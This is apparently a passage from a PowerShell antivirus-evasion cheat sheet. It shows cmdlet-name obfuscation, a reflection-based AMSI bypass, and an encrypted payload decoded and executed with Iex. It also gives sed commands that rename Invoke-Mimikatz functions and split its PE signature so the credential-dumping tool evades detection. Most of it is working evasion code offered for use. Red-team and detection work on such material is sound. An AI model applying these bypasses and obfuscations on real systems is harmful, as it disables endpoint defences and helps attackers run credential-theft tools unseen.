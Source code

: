 ```
PS C:\> Get-Command -name ("{1}{2}{0}{3}" -f "-Proces", "G", "et", "s")

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Get-Process                                        7.0.0.0    Microsoft.PowerShell.Management
```

### 2.4 - Encrypted Strings

```
$secureString = ConvertTo-SecureString -String '<payload>' -AsPlainText -force
$encoded = ConvertFrom-SecureString -k (0..15) $secureString > output.txt

$encoded = <encoded payload>
$Ref = [REF].Assembly.GetType('System.Management.Automation.AmsiUtils’);
$Ref.GetField(‘AmsiInitFailed','NonPublic,Static’).SetValue($null, $true);
$credential = [System.Management.Automation.PSCredential]::new("tim",(ConvertTo-SecureString -k (0..15)
$encoded))
Iex $credential.GetNetworkCredential().Password
```

## 03 - Modify PowerShell File

### 3.1 - Remove Semi-Colons

```
$ sed -i -e "s/\;/\n/g" payload.ps1
```

### 3.2 - Remove Spaces, Comments and Aliases

```
$ sed -i -e "/<#/,/#>/c\\" \
-e "s/^[[:space:]]*#.*$//g"
-e "/Set-Alias/d" payload.ps1
```

### 3.3 - Modify Variables and Concatenate Strings

Using `Invoke-Mimikatz` as an example.

```
$ sed -i "s/-Name VirtualProtect/<new_string>/g" \
-e "s/-Name WriteProcessMemory/<new_string>/g" \
-e "s/::logonPass/<new_string>/g" \
-e "s/DumpCreds/<new_variable>/g" \
-e "s/DumpCerts/<new_variable>/g" \
-e "s/CustomCommand/<new_variable>/g" \
-e "s/TypeBuilder/<new_variable>/g" \
-e "s/Win32Types/<new_variable>/g" \
-e "s/Win32Functions/<new_variable>/g" \
-e "s/shellcode/<new_variable>/g" \
-e "s/PEBytes64/<new_variable>/g" \
-e "s/PEBytes32/<new_variable>/g" \
-e "s/ArgumentPtr/<new_variable>/g" \
-e "s/CallDllMainSC1/<new_variable>/g" \
-e "s/'TVq/'TV'+'q/g" Invoke-Mimikatz.ps1
```

---